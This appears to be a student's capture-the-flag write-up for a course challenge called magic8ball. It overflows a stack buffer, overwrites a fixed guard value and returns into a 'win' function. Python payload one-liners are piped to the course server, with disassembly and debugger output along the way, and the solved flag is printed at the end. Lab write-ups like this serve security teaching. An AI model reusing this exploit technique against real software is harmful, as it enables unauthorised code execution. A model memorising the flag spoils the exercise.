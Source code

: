 # buffer overflow magic8ball


* First, use Binary Ninja to identify vulnerabilities. We can see the "vuln" function and "win" function. Our goal is to exploit "vuln" to reach "win." Let's break this down into three steps.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball1.png?raw=true)


##### step1 How to create a buffer overflow, and how many bytes are required for the overflow?
* I initially attempted to use GDB to determine this. It seems that the buffer size is at -0x2c(%ebp), which means it is 44bytes above the %ebp.

	~~~

   0x0804871a <+130>:    lea    -0x2c(%ebp),%eax

   0x0804871d <+133>:    push   %eax

   0x0804871e <+134>:    call   0x8048450 <gets@plt>
	~~~


* Given that "fortune1" is pushed onto the stack frame before, it takes up 12 bytes above %ebp. Therefore, the "buf" should be 32 bytes. Please correct me if I am mistaken.

 	~~~

   0x080486d3 <+59>:    mov    $0x804a040,%eax

   0x080486d9 <+65>:    mov    (%eax),%eax

   0x080486db <+67>:    mov    %eax,-0xc(%ebp)

   0x080486de <+70>:    sub    $0x8,%esp

   0x080486e1 <+73>:    push   -0xc(%ebp)
	~~~
 

 

#### step2 How to ensure that "fortune1" remains equal to "fortune"?
* first lets try to check if we get buffer overflowed!

	```
	python2 -c 'print "A"*31' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	```

	* let's make it to buffer overflow
	
	``` 
	python2 -c 'print "A"*32' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	the sands of time have changed!!

 	```


 
 

* Attempted to debug and found the address to be 0xf0470770, which in decimal is 4033411360. However, I'm not sure of the relationship between 4033411360 and the output from fortune 4031186800  (todo: I will investigate this in the next tutorial.)

* Add two breakpoints at the gets the address and the next instruction.
![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball3.png?raw=true)

 



 

* run the test which is "A"*32  or "A" * 33 to check which value be changed, then I found the exactly value is 0xf0470770.

 ![](https://github.com/li-li-ge/ctf_writeups/blob/main/img/magic8ball4.png?raw=true)


##milestone: finally skipped canary!!!!!

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" ' |./magic8ball

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

#### step3 How to return to the "win" address?

* get the "win" address which is 0x080485e6 by objdump


	```
	objdump -d magic8ball | grep win

	080485e6 <win>:

	804863c:    75 19                    jne    8048657 <win+0x71>

	8048655:    eb 3c                    jmp    8048693 <win+0xad>
	```
 

 

and added into our payload but still not returned to the win fun.

	~~~
	python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" +  "\xe6\x85\x04\x08" ' | 	nc comp6841.quoccabank.com 5003

	Your fortune is 4031186800

	idk why your fortune is a number, what does that mean?

	What do you think of your fortune?

	Thats... interesting... okay

	zzzzzzzzz
	~~~

 

* It seemed that some bytes needed to be added between the canary and the return address in "vuln." So, I decided to try a **brute-force** approach to determine the number of bytes required. It turned out that 12 bytes were needed to successfully reach the "win" address.

```
python2 -c 'print "A"*32 + "\x70\x07\x47\xf0" + "B"*12 + "\xe6\x85\x04\x08" ' | nc comp6841.quoccabank.com 5003

Your fortune is 4031186800

idk why your fortune is a number, what does that mean?

What do you think of your fortune?

Thats... interesting... okay

zzzzzzzzz

Ive changed your fortune.

Now your fortune is to go to jail.

```

```
COMP6841{SOMEWHAT_OF_A_BIRD_WATCHER}
```

 

 

 

